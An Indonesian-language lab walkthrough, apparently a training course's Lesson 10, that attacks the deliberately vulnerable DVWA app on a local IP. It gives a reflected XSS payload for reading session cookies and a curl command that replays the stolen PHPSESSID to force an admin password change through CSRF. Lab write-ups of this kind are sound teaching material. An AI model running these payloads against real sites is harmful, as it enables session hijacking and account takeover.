## LESSON 10

Inti dari Lesson 10 adalah mendapatkan 4 hal, yaitu:
1. Test **CSRF attack**
2. Capture dan manipulasi **CSRF URL** untuk mengubah **Password** admin
3. Mendapatkan **Cookie Session** menggunakan **Reflecive XSS attack**
4. Membuat **Curl CSRF** untuk mengubah **Password** admin

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. CSRF**
1. Pilih **CSRF** dan masukkan **Password baru** dengan **abc123**



2. Setelah mengganti dengan **abc123**, ubah **Password** tersebut dari **abc123** mejadi **test123** menggunakan **URL**

Sebelum



Sesudah



3. **Copy** **URL** ke dalam **Notepad**



**B. Test Password yang Telah Diubah**
1. Logout dari **DVWA** dan masuk kembali dengan **Password** yang baru *test123*


**C. XSS Reflected**
1. Pilih menu **XSS Reflected** dan masukkan command berikut untuk mendapatkan **Cookie**

```
<script>alert(document.cookie)</script>
```



2. **Copy** **Cookie**



3. **Paste** **Cookie**



**D. Membangun Curl String**
1. Masukkan command berikut untuk membangun **Curl String**

```
curl --cookie "security=low; PHPSESSID=c0o6r5agj13d6ngqspllu9i6b2" --location "http://192.168.1.103/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#"
```



2. Masukkan 

```
| grep "Password Changed" | tee curl.txt

curl --cookie "security=low; PHPSESSID=c0o6r5agj13d6ngqspllu9i6b2" --location "http://192.168.1.103/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#" | grep "Password Changed" | tee curl.txt
```



Hasil



**D. Test Curl String Password Change**
1. Logout dari DVWA dan masuk dengan **Password** baru



2. Jika berhasil maka akan muncul ini



### Kesimpulan Lesson 10

Menggunakan **CSRF** dan **Curl String** dapat mengubah **Password** dari **Admin DVWA**
